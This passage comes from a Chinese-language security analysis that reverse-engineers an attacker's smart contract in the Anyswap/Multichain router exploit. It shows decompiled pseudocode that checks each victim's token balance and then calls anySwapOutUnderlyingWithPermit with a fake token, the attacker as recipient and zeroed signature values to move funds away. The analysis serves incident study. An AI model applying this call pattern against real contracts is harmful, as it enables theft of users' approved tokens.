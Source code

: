 2. 然后会检查targetAccount在这个代币合约中的balance：

   ```python
   targetAccount = mem[(32 * idx) + 128]
         mem[(32 * _param2.length) + 132] = mem[(32 * idx) + 140 len 20]
         require ext_code.size(_param3)
         static call _param3.balanceOf(address owner) with:
                 gas gas_remaining wei
                args addr(targetAccount)
         mem[(32 * _param2.length) + 128] = ext_call.return_data[0]
         if not ext_call.success:
             revert with ext_call.return_data[0 len return_data.size]
         require return_data.size >= 32
   ```

   这里其实mem[(32 * idx) + 128]和mem[(32 * idx) + 140 len 20]是一个意思因为地址长度是20

3. 紧接着是一个条件分支语句，不过if和else分支的代码都是一样的（至少反编译结果看是这样），所以就按照没有分支来分析。

   ```python
   if ext_call.return_data[0]:
                 require idx < _param2.length
                 _39 = mem[(32 * idx) + 128]
                 mem[(32 * _param2.length) + 128] = 0x8d7d3eea00000000000000000000000000000000000000000000000000000000
                 mem[(32 * _param2.length) + 132] = addr(_39) #target account
                 mem[(32 * _param2.length) + 164] = _param1 #fake token addr
                 mem[(32 * _param2.length) + 196] = caller 
                 mem[(32 * _param2.length) + 228] = ext_call.return_data[0] #token number
                 mem[(32 * _param2.length) + 260] = 100 * 10^18 #deadline
                 mem[(32 * _param2.length) + 292] = 0 #v
                 mem[(32 * _param2.length) + 324] = 0 #r
                 mem[(32 * _param2.length) + 356] = 0 #s
                 mem[(32 * _param2.length) + 388] = 56 #chainID
                 require ext_code.size(stor1)
                 call stor1.0x8d7d3eea with:
                      gas gas_remaining wei
                     args addr(_39), addr(_param1), caller, ext_call.return_data[0], 100 * 10^18, 0, 0, 0, 56
                 if not ext_call.success:
                     revert with ext_call.return_data[0 len return_data.size]
   ```

   逻辑就是先判断是否有approve给router的资产，如果有的话，就调用0x8d7d3eea这个函数，这个函数签名实际上就是anySwapOutUnderlyingWithPermit(address,address,address,uint256,uint256,uint8,bytes32,bytes32,uint256)的签名，也就是前文所提及的漏洞函数:

   ![image-20220127205455785](https://s3cunDa.github.io/assets/post/image-20220127205455785.png)

   那么实际的调用就是

   `anySwapOutUnderlyingWithPermit(targetAccount, fakeToken, attackerAccount, tokenNmber, deadline, 0, 0, 0, 56)`

   也就是触发了漏洞函数，将钱转走。

#### ME3合约逆向分析
